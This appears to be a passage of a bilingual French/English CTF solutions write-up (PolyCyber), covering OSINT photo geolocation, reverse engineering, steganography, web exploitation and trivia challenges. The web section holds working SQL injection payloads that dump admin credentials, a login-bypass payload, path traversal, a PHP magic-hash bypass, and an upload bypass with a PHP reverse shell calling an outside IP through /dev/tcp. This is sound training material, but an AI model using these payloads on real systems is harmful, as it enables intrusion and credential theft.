| 10ème  | 24                       | On peut lire le nom de l'entreprise de lavage auto à droite: "RM". En cherchant sur Google "lave auto RM montréal" on trouve l'emplacement.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 12ème  | 14, 15, 20, 31, 37, 38   | Recherche par image sur Google qui nous indique qu'il s'agit du [parc de l'Ukraine](https://maps.app.goo.gl/mDtRGfUGTJhUnsnX9). La photo a été prise depuis la 12ème Avenue. |
| 13ème  | 12                       | On repère la meme sculpture que pour la 12ème Avenue. La photo a été prise depuis l'autre coté du parc de l'Ukraine, c'est à dire depuis la 13ème Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 14ème  | 3, 6, 18, 27             | On peut lire le nom d'une entreprise en bas à droite: "Altapex". En cherchant le nom sur Google, on trouve que la photo a été prise depuis la 14ème Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 15ème  | 5, 34                    | On peut lire le nom du restaurant: "Champion pizza", ainsi que le nom d'une rue "beaubien". En cherchant les deux sur Google on trouve l'emplacement de la photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 16ème  | 19, 28, 35               | Recherche par image sur Google et on trouve qu'il s'agit de la station de pompage du quartier Rosemont.                                                                                                                                                |
| 18ème  | 1, 8, 32                 | On peut lire "Technologie Rosemont" sur la store bleu. En cherchant "Technologie Rosemont" sur Google on trouve qu'il s'agit du Centre de technologie Rosemont.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 20ème  | 7                        | On peut lire le mot "Comptables" ainsi qu'un numéro de téléphone "376-4090". En cherchant sur Google "comptables 376-4090" on trouve l'entreprise [Gosselin Associés](https://gosselin-ca.com/nous-joindre/).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 21ème  | 11, 17, 30               | Dans l'arrière plan on peut lire "écho du coeur". En recherchant sur Google "l'écho du coeur montréal" on découvre qu'il s'agit d'une garderie et on trouve l'emplacement de la photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |

---

**Solution EN**

By looking for the places where the photos were taken we can notice something: they are taken in numbered avenues of Montréal.

By finding in which avenue each photo is taken we obtain the following sequence of numbers:
18, 5, 14, 3, 15, 14, 20, 18, 5, 1, 21, 13, 9, 12, 12, 5, 21, 14, 16, 12, 1, 3, 5, 10, 5, 1, 14, 16, 1, 21, 12, 18, 9, 15, 16, 5, 12, 12, 5

Noting that all numbers are less than 26 we can convert them into letters (with [CyberChef](https://gchq.github.io/CyberChef/#recipe=A1Z26_Cipher_Decode('Space')&input=MTgsIDUsIDE0LCAzLCAxNSwgMTQsIDIwLCAxOCwgNSwgMSwgMjEsIDEzLCA5LCAxMiwgMTIsIDUsIDIxLCAxNCwgMTYsIDEyLCAxLCAzLCA1LCAxMCwgNSwgMSwgMTQsIDE2LCAxLCAyMSwgMTIsIDE4LCA5LCAxNSwgMTYsIDUsIDEyLCAxMiwgNQ) for example) and we find (by adding the spaces).

        rencontre au mille un place jean paul riopelle

With a Google search we find that 1001 Place Jean-Paul Riopelle corresponds to the address of the Palais des Congrès.

To find photo locations:

| Avenue | Pictures                   | Possible solution                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|--------|--------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1ère   | 10, 21, 26, 29           | We can read in the photo that it is the Saint Marc school                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 3ème   | 4, 22                    | Search by image on Google and we find [this page](https://ville.montreal.qc.ca/murales/detail/167) which gives us the location.                            |
| 5ème   | 2, 9, 16, 23, 25, 36, 39 | We can read the name of a store "La shop techno" and a Google search gives us the address                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 9ème   | 13, 33                   | Search by image on Google that directs us to [this site](https://steemit.com/graffiti/@heroldius/street-art-244-monosourcil-montreal) on which we find the location.                                                                       |
| 10ème  | 24                       | We can read the name of the car wash company on the right: "RM". By searching on Google for "lave auto RM Montreal" you can find the location.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 12ème  | 14, 15, 20, 31, 37, 38   | Search by image on Google which tells us that this is the [Ukrainian park](https://maps.app.goo.gl/mDtRGfUGTJhUnsnX9). The photo was taken from 12th Avenue. |
| 13ème  | 12                       | We spot the same sculpture as for 12th Avenue. The photo was taken from the other side of Ukraine Park, that is to say from 13th Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 14ème  | 3, 6, 18, 27             | We can read the name of a company at the bottom right: "Altapex". Googling the name reveals that the photo was taken from 14th Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 15ème  | 5, 34                    | We can read the name of the restaurant: "Champion pizza", as well as the name of a street "Beaubien". Googling both shows the location of the photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 16ème  | 19, 28, 35               | Search by image on Google we find that it is the pumping station of the Rosemont district.                                                                                                                                                |
| 18ème  | 1, 8, 32                 | We can read "Technologie Rosemont" on the blue blind. By searching for "Technologie Rosemont" on Google we find that it is the Rosemont Technology Center.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 20ème  | 7                        | We can read the word "Comptables" as well as a telephone number "376-4090". By searching on Google “Comptables 376-4090” you find the company [Gosselin Associés](https://gosselin-ca.com/nous-joindre/).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 21ème  | 11, 17, 30               | In the background we can read "écho du coeur". By searching on Google for "l'écho du coeur montréal" we discover that it is a daycare and we find the location of the photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |


---

**Flag**

`polycyber{palais_des_congrès}`

---
</details>


<details>
  <summary>Sur les traces de Scofield 1</summary>

**Solution FR**

Il faut commencer par trouver de quelle prison s'est enfuis Michael Scofield. Après une [rapide recherche](https://fr.wikipedia.org/wiki/Prisons_de_Prison_Break#P%C3%A9nitencier_d'%C3%89tat_de_Fox_River_(Fox_River_State_Penitentiary)), on apprend que c'est l'ancienne prison de Joliet qui a servi de lieu de tournage pour la prison de Fox River.
Maintenant, on va chercher l'aérodrome de la ville de Joliet et on trouve [ce site](https://jolietpark.org/joliet-regional-airport). On trouve dans l'onglet "Pilot Services" l'identifiant FAA de l'aérodrome : **JOT**. On calcule son hash MD5 ce qui nous donne le flag.

---

**Solution EN**

We need to start by finding out which prison Michael Scofield escaped from. After a [quick search](https://en.wikipedia.org/wiki/Prison_Break#Filming), we learned that it was the former Joliet prison that served as a filming location for Fox River Prison.
Now we go look for the city of Joliet airfield and we find [this site](https://jolietpark.org/joliet-regional-airport). In the “Pilot Services” tab you can find the FAA identifier of the aerodrome: **JOT**. We calculate its MD5 hash which gives us the flag.

---

**Flag**

`polycyber{88be398c2d0a9c6fccbeb28b020c3226}`

---
</details>

<details>
  <summary>Sur les traces de Scofield 2</summary>

**Solution FR**

Il faut commencer par retrouver la marque de ces bâtonnets au fromage.
2 façons parmi d'autres:
- Une recherche avec Google Image nous permet de trouver ce [groupe Facebook](https://www.facebook.com/groups/149535758996361/) de fans de Cheezies.
- Comme on demande un identifiant [TC LID](https://fr.wikipedia.org/wiki/Indicateur_d%27emplacement#Indicateur_de_Transports_Canada), on cherche un aérodrome canadien. Sur [Wikipedia](https://en.wikipedia.org/wiki/Cheese_puffs#Notable_brands) on trouve la liste des plus importantes marques de bâtonnets au fromage et une seule est canadienne c'est Cheezies.
 
Une fois qu'on a trouvé [la marque](https://en.wikipedia.org/wiki/Cheezies), on découvre que la production se fait dans la ville de Belleville, Ontario et que [l'inventeur des Cheezies](https://en.wikipedia.org/wiki/James_Marker) y a fondé [un aérodrome](https://en.wikipedia.org/wiki/Belleville_Aerodrome).
L'identifiant de cet aérodrome est **CNU4**. On calcule son hash MD5 ce qui nous donne le flag.

---

**Solution EN**

You have to start by finding the brand of these cheese sticks.
2 ways among others:
- A search with Google Image allows us to find this [group Facebook](https://www.facebook.com/groups/149535758996361/) of Cheezies fans.
- Since we are asking for an identifier [TC LID](https://fr.wikipedia.org/wiki/Indicateur_d%27emplacement#Indicateur_de_Transports_Canada), we are looking for a Canadian aerodrome. On [Wikipedia](https://en.wikipedia.org/wiki/Cheese_puffs#Notable_brands) we find the list of the most important brands of cheese sticks and only one is Canadian, Cheezies.

Once we found [the brand](https://en.wikipedia.org/wiki/Cheezies), we discovered that production was done in the town of Belleville, Ontario and that [the inventor of Cheezies](https://en.wikipedia.org/wiki/James_Marker) founded [an aerodrome](https://en.wikipedia.org/wiki/Belleville_Aerodrome) there. The identifier of this aerodrome is **CNU4**. We calculate its MD5 hash which gives us the flag.

---

**Flag**

`polycyber{c28c51c8b2f9c2ddbf331a3e56e664be}`

---
</details>

<details>
  <summary>Sur les traces de Scofield 3</summary>

**Solution FR**

Plusieurs éléments permettent de trouver le nom de la ville dans laquelle se trouve la plage:
- Le nom de la ville de Toronto sur un panneau de la photo
- Un champ "Description" dans les métadonnées de l'image (que l'on peut observer avec l'outil [exiftool](https://exiftool.org/)) indique "Toronto Islands"

Ensuite pour trouver la plage exacte, il faut utiliser l'information de la distance parcourue: 759 km. Pour ça on peut utiliser un outil comme [CalcMaps](https://www.calcmaps.com/fr/). Avec la fonctionnalité "Rayon" on trace un cercle partant de l'aérodrome de Joliet et mesurant 759 km de rayon.

Puis on va s'intéresser à l'intersection du cercle avec Toronto.

On peut notament remarquer que le cercle coupe "Ward's Island Beach" et lorsque l'on observe cette plage avec [Google Street View](https://maps.app.goo.gl/xjmiSmfhx3A7t8RB7) on reconnait l'endroit de la photo !

---

**Solution EN**

Several elements allow you to find the name of the city in which the beach is located:
- The name of the city of Toronto on a sign in the photo
- A "Description" field in the image metadata (which can be observed with the [exiftool](https://exiftool.org/) tool) indicates "Toronto Islands"

Then to find the exact range, you must use the information on the distance traveled: 759 km. For this we can use a tool like [CalcMaps](https://www.calcmaps.com/fr/). With the "Radius" functionality we draw a circle starting from the Joliet aerodrome and measuring 759 km in radius.

Then we will look at the intersection of the circle with Toronto.

We can notably notice that the circle intersects "Ward's Island Beach" and when we observe this beach with [Google Street View](https://maps.app.goo.gl/xjmiSmfhx3A7t8RB7) we recognize the location of the photo !

---

**Flag**

`polycyber{ward's_island_beach}`

---
</details>

## Reverse

<details>
  <summary>Keypad</summary>

**Solution FR**
Ouvrez le binaire dans un décompilateur et naviguez à la fonction `NimMainModule`. Vous y verrez toute la logique du programme. En particulier, une ligne fait la comparaison entre le chiffre courant et le chiffre correspondant dans le code secret.
![](comparaison.png)

Vous n'avez qu'à aller à ce symbole pour voir le bon PIN. Les chiffres sont encodés sur 64 bits, donc vous pouvez les afficher comme étant des `longlong` pour plus de clarté.
![](secret_code.png)

Vous pouvez maintenant lire les 8 chiffre et les utiliser pour créer le flag.

---

**Solution EN**
Open the binary in a decompiler and navigate to the `NimMainModule` fonction. You should see all the logic of the program there. In particular, there is one line that compares the current digit with the secret digit.
![](comparaison.png)

You only need to go to that symbol's address to find the correct keypad. The numbers are stored as 64 bits integers, so you need to cast the variable as an array of `longlong` for clarity.
![](secret_code.png)

You can then read the 8 digits and use them to craft the flag.

---

**Flag**

`polycyber{29385914}`

---
</details>


<details>
  <summary>Prison Cells</summary>

**Solution FR**

Ce défi peut être résolu de quelques façons différentes.

Tout d'abord, on remarque que l'on a la possibilité d'ouvrir les cellules de prison, mais rien d'intéressant ne s'en suit. En désassemblant/décompilant le programme avec un outil comme Ghidra, on observe qu'une option "flag" est aussi disponible. C'est la trace qu'on utilisé les précédents criminels qui ont aidé à faire sortir leur ami Davey de la prison. Un problème se pose toutefois: le programme demande de prouver qu'on est bien Davey.

On peut comprendre que le programme contacte une url, mais celle-ci est décryptée dynamiquement. Cette fonction de décryption semble assez difficile à comprendre. L'oeil aguerri saura le reconnaitre, mais il est aussi possible de le présenter à un LLM comme ChatGPT, qui saura l'identifier. Lorsqu'on sait que l'encryption est RC4, il est possible de récupérer le texte chiffré (premier paramètre) ainsi que la clé (troisième paramètre). Il est possible que Ghidra laisse la clé sous le format hexadécimal. Il suffit alors de retyper la variable à char[4] pour qu'on voit plus clairement que la valeur est plutôt "flag". Lorsqu'on utilise ensuite CyberChef avec la recette (1) From Hex et (2) RC4 (avec "flag" comme clé) on obtient alors la valeur décryptée: get_flag_328cd65f3ec16a7c64bebdd90d2e2b3c (voici la valeur encryptée pour convenance: 0x8895a056ad8a2a57e56ae76013ebde5bafa34306e00cc7df481b06ab733ba5cf5b81f19441b59a8e62)

On peut voir que la suite du programme consiste simplement à concaténer l'adresse du serveur à la chaine de caractères que l'on vient d'obtenir. On peut alors simplement contacter le serveur et récupérer le flag avec un programme comme curl!

Il aurait aussi été possible de rouler le programme dans un débuggeur puis récupérer la route HTTP décryptée, mais il y avait une petite protection pour l'empêcher. En effet, une fonction (qui était appelée à quelques endroits dans le programme) terminait l'exécution du programme lorsque gdb était détectée. Pour contourner cela, il était possible d'utiliser un autre débuggeur ou modifier le binaire pour contourner la fonction d'anti-debug.

Lorsque exécuté, le programme demande aussi de vérifier que nous sommes bien Davey. Pour lui faire croire que c'est le cas, il faut entrer le mot de passe qui est encrypté dans le programme avec un simple XOR utilisant 0x09 comme clé. En appliquant plutôt un xor sur la clé encrypté, on obtient XUQWeHDQaCbBZZcQ, qui correspond bien au mot de passe. On peut découvrir ces informations en analysant la seconde fonction appelée dans celle qui s'occupe de la connexion internet (celle qui utilise les fonctions curl_easy_init, curl_easy_setopt, etc).

Il était aussi possible de laisser le programme contacter le serveur et récupérer le flag, mais celui-ci n'est alors pas affiché car il est directement stocké en mémoire. Pour trouver cette adresse, il suffit de consulter la fonction de connexion internet, récupérer la fonction de callback qui traite la valeur de retour du serveur (fournie au second appel à curl_easy_setopt) et récupérer l'adresse mémoire. Ceci aurait permis de récupérer le flag si on souhaitait exécuter tout le programme dans un débuggeur.

Finalement, une autre méthode aurait été de rouler le programme normalement, rentrer la valeur demandée, puis récupérer la réponse du serveur avec l'aide d'un sniffeur réseau comme Wireshark.

---

**Solution EN**

This challenge can be solved in a few different ways.

Firstly, it is noticed that there is the option to open the prison cells, but nothing interesting follows from it. By disassembling/decompiling the program using a tool like Ghidra, one observes that a "flag" option is also available. This is the trace used by previous criminals who helped their friend Davey escape from prison. However, a problem arises: the program requires proof that one is indeed Davey.

It is understood that the program contacts a URL, but it is decrypted dynamically. This decryption function seems quite challenging to understand. An experienced eye may recognize it, or it can be presented to a Language Model like ChatGPT, which can identify it. Knowing that the encryption is RC4, it is possible to retrieve the encrypted text (first parameter) and the key (third parameter). Ghidra might leave the key in hexadecimal format. Simply retyping the variable to char[4] makes it clear that the value is "flag." Using CyberChef with the recipe (1) From Hex and (2) RC4 (with "flag" as the key), the decrypted value is obtained: get_flag_328cd65f3ec16a7c64bebdd90d2e2b3c (here is the encrypted value for convenience: 0x8895a056ad8a2a57e56ae76013ebde5bafa34306e00cc7df481b06ab733ba5cf5b81f19441b59a8e62).

The next step in the program is to concatenate the server address to the string obtained. Then, one can simply contact the server and retrieve the flag using a program like curl!

It would have also been possible to run the program in a debugger and retrieve the decrypted HTTP route, but there was a small protection to prevent it. A function (called at various points in the program) terminated the program when GDB was detected. To circumvent this, another debugger could be used, or the binary could be modified to bypass the anti-debug function.

When executed, the program also asks to verify that one is indeed Davey. To make it believe so, the password encrypted in the program with a simple XOR using 0x09 as the key should be entered. Applying XOR to the encrypted key, XUQWeHDQaCbBZZcQ is obtained, which corresponds to the password. These details can be discovered by analyzing the second function called within the one handling internet connection (the one using functions like curl_easy_init, curl_easy_setopt, etc).

It was also possible to let the program contact the server and retrieve the flag, but it was not displayed as it was directly stored in memory. To find this address, inspect the internet connection function, retrieve the callback function processing the server's return value (provided in the second call to curl_easy_setopt), and obtain the memory address. This would have allowed retrieving the flag if one wanted to execute the entire program in a debugger.

Finally, another method would have been to run the program normally, enter the requested value, and then retrieve the server's response with the help of a network sniffer like Wireshark.

---

**Flag**

`polycyber{GU4RD5_CH4NG3_SH1F7_47_M1DN1GH7}`

---
</details>

## Steganography

<details>
  <summary>Inkblot</summary>

**Solution FR**

Pour dévoiler le flag, les participants devront utiliser l'outil [OpenStego](https://github.com/syvaidya/openstego). Suivez les étapes suivantes :
1. Lancez OpenStego et sélectionnez l'option "Extraire les données".
2. Chargez le fichier image suspect dans le champ "Fichier stego d'entrée".
3. Spécifiez le dossier de sortie pour le fichier de message.
4. Cliquez sur "Extraire les données" et attendez la révélation du message caché.
Une fenêtre de confirmation apparaîtra, indiquant la réussite de l'extraction. Le flag se trouve dans le fichier extrait, prêt à être revendiqué.

---

**Solution EN**

To unveil the flag, participants will need to use the tool [OpenStego](https://github.com/syvaidya/openstego). Follow these steps:
1. Launch OpenStego and select the "Extract data" option.
2. Load the suspect image file into the "Input stego file" field.
3. Specify the output folder for the message file.
4. Click on "Extract data" and await the revelation of the hidden message.
A confirmation window will appear, indicating the successful extraction. The flag is located in the extracted file, ready to be claimed.

---

**Flag**

`polycyber{St3g0_1s_FuN}`

---
</details>

## Web Exploitation

<details>
  <summary>Cafeteria Meals 1</summary>

**Solution FR**

1. Inspecter la page.
2. Trouver le flag en clair avec l'indice vers /guid en dessous.

---

**Solution EN**

1. Inspect page.
2. Find flag in plain text with hint to /guid below.

---

**Flag**

`polycyber{you_should_4lw4y5_t4k3_a_look_at_the_5ourc3_51abff21c}`

---

</details>

<details>
  <summary>Bookworm 1</summary>

**Solution FR**

#### Première partie du défi

##### Étape 1 : Découverte de l'injection SQL

Lorsque vous accédez au site de recherche de livres, vous remarquez une vulnérabilité d'injection SQL dans le champ de recherche. Cela signifie que vous pouvez potentiellement interagir avec la base de données sous-jacente.

##### Base de données
Pour commencer, vous voulez obtenir les noms de toutes les bases de données disponibles. Vous pouvez utiliser la commande suivante dans le champ de recherche :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata-- -`

*Cela récupérera les noms de toutes les bases de données et les affichera sous forme de chaîne concaténée.*

###### Tables
Après avoir obtenu les noms des bases de données, vous pouvez choisir une base de données spécifique (par exemple, "library") et récupérer les noms de toutes les tables dans cette base de données :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="library"-- -`

*Cela récupérera les noms de toutes les tables dans la base de données "library".*
##### Colonnes
Maintenant que vous avez les noms de tables, vous pouvez sélectionner une table spécifique (par exemple, "Admin") et récupérer les noms de toutes les colonnes dans cette table :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="Admin"-- -`

*Cela récupérera les noms de toutes les colonnes dans la table "Admin".*

##**Flag** 1
Enfin, vous pouvez utiliser les noms de colonnes que vous avez obtenus pour extraire les données de la table "Admin" et ainsi obtenir le Flag 1. Voici la commande :

`-1' UNION SELECT 1, GROUP_CONCAT('Username: ', username, ' | Password: ', password) FROM Admin-- -`

*Cela récupérera les informations d'identification des utilisateurs stockées dans la table "Admin" sous forme de chaîne concaténée.*

---

**Solution EN**

#### Part 1 of the Challenge

##### Step 1: SQL Injection Discovery

When you access the book search website, you notice a SQL injection vulnerability in the search field. This means you can potentially interact with the underlying database.

##### Database
To start, you want to get the names of all available databases. You can use the following command in the search field:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata-- -`

*This will retrieve the names of all databases and display them as a concatenated string.*

##### Tables
After obtaining the names of databases, you can select a specific database (e.g., "library") and retrieve the names of all tables in that database:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="library"-- -`

*This will retrieve the names of all tables in the "library" database.*

##### Columns
Now that you have table names, you can select a specific table (e.g., "Admin") and retrieve the names of all columns in that table:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="Admin"-- -`

*This will retrieve the names of all columns in the "Admin" table.*

##**Flag** 1
Finally, you can use the column names you obtained to extract data from the "Admin" table and obtain Flag 1. Here's the command:

`-1' UNION SELECT 1, GROUP_CONCAT('Username: ', username, ' | Password: ', password) FROM Admin-- -`

*This will retrieve user credentials stored in the "Admin" table as a concatenated string.*

---

**Flag**

`polycyber{SQL_Br3ak0ut}`


---
</details>


<details>
  <summary>Bookworm 2</summary>

**Solution FR**

#### Deuxième partie du défi

##### Étape 2 : Utilisation des informations d'identification

Maintenant que vous avez les informations d'identification de l'administrateur (Flag 1), vous pouvez vous connecter à la page "upload.php" en utilisant ces informations.

##### Étape 3 : Contournement de la protection lors de l'upload

Lors de l'upload de fichiers sur la page "upload.php", vous essayez d'uploader un fichier PHP pour obtenir un reverse shell mais c'est bloqué. Pour contourner cette protection, vous allez utiliser une autre extension PHP, par exemple, ".php5".

Voici les étapes à suivre pour réussir :

1. Créez un fichier reverse shell PHP en utilisant un générateur en ligne comme https://www.revshells.com/. Entrez votre adresse IP et le port que vous souhaitez utiliser, recherchez un shell PHP approprié, copiez le contenu généré (utilisez le bouton "Copy" en bas à droite), enregistrez le fichier sous le format ".php5". Exemple de reverse shell:

```php
<?php
$cmd = 'bash -c \'(exec bash -i &>/dev/tcp/162.210.192.215/30979 0>&1) &\'';
system($cmd);
?>
```

2. Uploadez le fichier shell ".php5" sur le site du challenge. Le téléchargement réussira car il contient une extension autorisée.

3. Une fois le fichier téléchargé, vous recevrez un lien avec un nom de fichier aléatoire (/uploads/nomdufichier.php5). Vous pouvez y accéder en tapant l'adresse http://urlduchallenge/uploads/nomdufichier.php5.

4. Pour établir une connexion inverse (reverse shell), ouvrez un terminal sur une machine avec un port exposé (possible d'utiliser une service en ligne comme https://www.thc.org/segfault/) et lancez un listener. La commande suivante peut parfois suffir: nc -lvnp 9001 (utilisez le port que vous avez spécifié pour votre reverse shell). Sur https://www.thc.org/segfault/, vous pouvez simplement lancer la commande `rshell`.

5. Visitez l'URL du fichier ".php5" sur le navigateur (http://urlduchallenge/uploads/nomdufichier.php5) pour exécuter le reverse shell. Vous devriez recevoir une connexion inverse sur votre terminal.

##### Étape 4 : Recherche du Flag 2

Maintenant que vous avez un accès shell sur la machine, explorez les répertoires et fichiers pour trouver le Flag 2. Vous le trouverez dans le dossier /var/www/flag.txt.

##**Flag** 2
Le Flag 2 est situé dans le fichier /var/www/flag.txt. Vous pouvez l'afficher avec la commande appropriée depuis le shell (`cat flag.txt`).

Félicitations, vous avez réussi à trouver le Flag 2 !

---

**Solution EN**

#### Part 2 of the Challenge

##### Step 2: Using the Credentials

Now that you have the administrator's credentials (Flag 1), you can log in to the "upload.php" page using these credentials.

##### Step 3: Bypassing the Upload Protection

During file uploads on the "upload.php" page, you attempt to upload a PHP file to get a reverse shell, but it's blocked. To bypass this protection, you will use a different PHP extension, for example, ".php5".

Here are the steps to succeed:

1. Create a PHP reverse shell file using an online generator like https://www.revshells.com/. Enter your IP address and the port you want to use, search for a suitable PHP shell, copy the generated content (use the "Copy" button at the bottom right), save the file as ".php5". Example of reverse shell:

```php
<?php
$cmd = 'bash -c \'(exec bash -i &>/dev/tcp/162.210.192.215/30979 0>&1) &\'';
system($cmd);
?>
```

2. Upload the ".php5" shell file to the challenge website. The upload will succeed because it has an allowed extension.

3. Once the file is uploaded, you will receive a link with a random file name (/uploads/filename.php5). You can access it by typing the URL http://challengeurl/uploads/filename.php5.

4. To establish a reverse shell connection, open a terminal on a machine with an exposed port (you can use an online service like https://www.thc.org/segfault/) and start a listener. The following command may sometimes suffice: nc -lvnp 9001 (use the port you specified for your reverse shell). On https://www.thc.org/segfault/, you can simply execute the command rshell.

5. Visit the URL of the ".php5" file in your browser (http://challengeurl/uploads/filename.php5) to execute the reverse shell. You should receive a reverse connection on your terminal.

##### Step 4: Finding Flag 2

Now that you have shell access to the machine, explore directories and files to find Flag 2. You will find it in the /var/www/flag.txt directory.

##**Flag** 2
Flag 2 is located in the file /var/www/flag.txt. You can view it with the appropriate command from the shell (`cat flag.txt`).

Congratulations, you have successfully found Flag 2!

---

**Flag**

`polycyber{UPL04D_BYP4SS_SUCC3SS}`

---
</details>

<details>
  <summary>Paul's Dirty Secret 1</summary>

**Solution FR**

#### Etape 1 : Découverte du site

En se connectant à l'adresse donnée, on est redirigé vers "fun-in-jail.ctf". Il faut l'ajouter à notre `/etc/hosts` sur Linux (`C:\Windows\System32\drivers\etc\hosts` sur Windows). Si ça n'arrive pas directement, la redirection aura lieu à l'étape 2.

#### Etape 2 : Trouver un point d'entrée

Avec un peu de fuzzing (ou de guessing), on trouve facilement 2 potentielle page : `login.php` et `admin.php`, mais la seconde nous redirige sur le login.
Avec quelques tests on peut se rendre compte qu'il y a une injection SQL sur le login

#### Etape 3 : Exploiter l'injection SQL

L'injection est facilement exploitable, seulement il ne faut qu'1 seule *row* en réponse.
La payload est donc la suivante :
`' OR 1=1 LIMIT 1; -- `

On est connecté sur la page `admin.php`

#### Etape 4 : Exploiter une LFI

Ici, on peut lire différents fichiers.
Seulement, en modifiant le paramètre `filename`, on peut contrôler le fichier à lire.
On peut notamment effectuer un *Path Traversal*.

En cherchant à lire le fichier *index.php*, on va remonter les dossier en utilisant `..`.
Avec `../index.php` on peut lire l'index et on a un premier flag.

---

**Solution EN**

#### Step 1: Site Discovery

Upon connecting to the provided address, we are redirected to "fun-in-jail.ctf". It needs to be added to our `/etc/hosts` on Linux (`C:\Windows\System32\drivers\etc\hosts` on Windows). If it doesn't happen directly, the redirection will occur at step 2.

#### Step 2: Finding an Entry Point

With a bit of fuzzing (or guessing), we easily find 2 potential pages: `login.php` and `admin.php`, but the latter redirects us to the login. Through some tests, we realize there's an SQL injection on the login.

#### Step 3: Exploiting the SQL Injection

The injection is easily exploitable; we just need one *row* in response. The payload is as follows:
`' OR 1=1 LIMIT 1; -- `

We're connected to the `admin.php` page.

#### Step 4: Exploiting an LFI

Here, we can read various files. However, by modifying the `filename` parameter, we can control the file to read. We can notably perform a *Path Traversal*.

By attempting to read the *index.php* file, we traverse directories using `..`. With `../index.php`, we can read the index and obtain our first flag:

---

**Flag**

`polycyber{SQLi_To_LFI_but_where_is_the_hidden_site?}`

---
</details>

<details>
  <summary>Paul's Dirty Secret 2</summary>

**Solution FR**

#### Etape 1 : Trouver le site secret

On nous parle d'un site secret, mais où peut-il bien être ?
En se renseignant un peu, on apprend qu'on peut définir plusieurs vhost [voir ici](https://httpd.apache.org/docs/2.4/vhosts/examples.html)

On peut trouver notamment 2 fichiers par défaut pour les configurer :
- `/etc/apache2/sites-available/000-default.conf`
- `/etc/apache2/sites-enabled/000-default.conf`


Et en allant les lire on trouve un nouveau vhost et le chemin vers ses fichiers : *secret-barbapapa-addicts.ctf*

#### Etape 2 : Obtenir les données cachées

On trouve un site en l'honneur des barbapapas. Malheureusement un mot de passe/secret est demandé.
En réutilisant la vulnérabilité LFI trouvée plus tôt, on peut aller lire le fichier `/var/www/html/secret-site/index.php`.
On voit que le mot de passe que l'on donne est hashé en Sha1 et vérifié avec un secret en base de données.
On peut aussi noter la présence d'une comparaison faible :
```php
if ($row["secret"] == $password)
```


En réutilisant aussi l'injection SQL, on peut obtenir, par Boolean Based ou Time Based, la valeur de ce secret.
Le secret est le suivant : `0e39467675362791795113850062806237025205`

On voit qu'il commence par `0e` et n'est composé que de chiffre.
En exploitant ceci et la comparaison faible, on peut contourner le secret !

En allant chercher [ici](https://github.com/spaze/hashes/blob/master/sha1.md), on peut trouver une liste de "magic hash", des valeurs qui une fois hashées en Sha1 donnent `0exxxx`.
On en prend un au hasard (par exemple *aaO8zKZF*) et on l'envoie, ce qui nous donne le 2ème flag !

---

**Solution EN**

#### Step 1: Finding the Secret Site

We're told about a secret site, but where could it be? After some research, we learn that we can define multiple vhosts [see here](https://httpd.apache.org/docs/2.4/vhosts/examples.html).

We can find 2 default files to configure them:
- `/etc/apache2/sites-available/000-default.conf`
- `/etc/apache2/sites-enabled/000-default.conf`

By reading these files, we find a new vhost and the path to its files: *secret-barbapapa-addicts.ctf*

#### Step 2: Obtaining the Hidden Data

We find a site honoring the barbapapas. Unfortunately, a password/secret is required. By reusing the LFI vulnerability found earlier, we can read the file `/var/www/html/secret-site/index.php`. We see that the password we provide is hashed in Sha1 and verified with a secret in the database. We also note the presence of a weak comparison:
```php
if ($row["secret"] == $password)
```

By also reusing the SQL injection, we can obtain, through Boolean-Based or Time-Based techniques, the value of this secret.
The secret is as follows: `0e39467675362791795113850062806237025205`.

We see that it starts with `0e` and consists only of digits. By exploiting this and the weak comparison, we can bypass the secret!

By looking [here](https://github.com/spaze/hashes/blob/master/sha1.md), we can find a list of "magic hashes," values that when hashed in Sha1 give `0exxxx`. We randomly select one (for example *aaO8zKZF*) and send it, which gives us the second flag!

---

**Flag**

`polycyber{One_server_multiple_vhosts...And_use_===_please!}`


---
</details>




## Trivia

<details>
  <summary>March 28th</summary>

**Solution FR**

Une rapide recherche dans l'actualité nous pointe vers Ross Anderson.

On peut trouver son CV en ligne.

En 1996, il travaillait pour l'institut Isaac Newton.

---

**Solution EN**

A quick news search points us to Ross Anderson.

His CV can be found online.

In 1996, he was working for the Isaac Newton Institute.

---

**Flag**

`polycyber{isaac_newton}`

---
</details>

<details>
  <summary>Loi 25 | Law 25</summary>

**Solution FR**

Le magasine est la Gazette du Québec.


Une rapide recherche Google permet de tomber sur [ce lien](https://www.publicationsduquebec.gouv.qc.ca/fileadmin/gazette/pdf_encrypte/lois_reglements/2023F/82082.pdf).

La page est écrite en haut à droite

---

